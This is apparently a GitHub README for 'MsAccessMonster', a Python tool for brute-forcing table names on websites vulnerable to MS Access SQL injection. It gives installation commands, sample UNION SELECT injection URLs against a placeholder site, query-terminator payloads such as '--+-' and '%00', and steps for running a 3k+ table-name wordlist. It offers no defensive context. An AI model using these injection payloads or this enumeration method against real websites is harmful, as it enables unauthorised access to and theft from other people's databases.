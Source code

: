 ## MsAccessMonster <img src="https://img.shields.io/badge/Python-3776AB?style=flat-square&logo=python&logoColor=white"></img>
A fast tool for bruteforcing the Ms Access SQL Injection vulnerable sites with 3k+ possible table names.

### Compatible devices
- As this tool is completely written in python, it will run in all devices including, Termux and Debian based OS ( Ubuntu, Kali etc. ).

### Installation & running process
- For Termux ( Android )
```
pkg update && pkg upgrade -y
```
```
pkg install git && python3
```
```
pip install requests
```
```
git clone https://github.com/EverythingVulnerable/MsAccessMonster
```
- For Debian based OS
```
sudo su
```
```
apt-get update && apt upgrade -y
```
```
apt-get install python3 python3-pip git
```
```
git clone https://github.com/EverythingVulnerable/MsAccessMonster
```

### Tool running commands ( for every devices & OS )
```
cd MsAccessMonster
```
```
python3 ms.py
```
Then, you will be asked for a Ms Access Vulnerable Site. Give it like this,
```
https://www.everythingvuln1.com/vuln.php?id=1 and 0 union select 1,2,3,4 from
```
Or,
```
https://www.everythingvuln1.com/vuln.php?id=1'and 0 union select 1,2,3,4 from
```
***Note :: Use the word "from" after the 1st input or, the tool won't work properly***.

Then, you will be asked to give the comment of the query. This can be anything. Depends on the website. Such as,
```
--
--+-
%00
;%00
```
After giving the perfect comment, you will be told to give your table_name's list or, word list. By default, we have given a default word list which contains 3k+ table names. If you want to use that put your command like this,
```
tables.txt
```
If you want to give your custom word list put the path then. For example,
```
/sdcard/tables.txt
```
![poc image](https://github.com/EverythingVulnerable/MsAccessMonster/blob/main/image1.png?raw=true "How To Run Program")
Now, hit enter and wait for the matched response. For example,
```
[$] Site link: https://www.everythingvuln1.com/vuln.php?id=1 and 0 union select 1,2,3,4 from ..... %00
```
Here, ```...``` is the correct table names

![poc image2](https://github.com/EverythingVulnerable/MsAccessMonster/blob/main/image2.png?raw=true "Table Found")
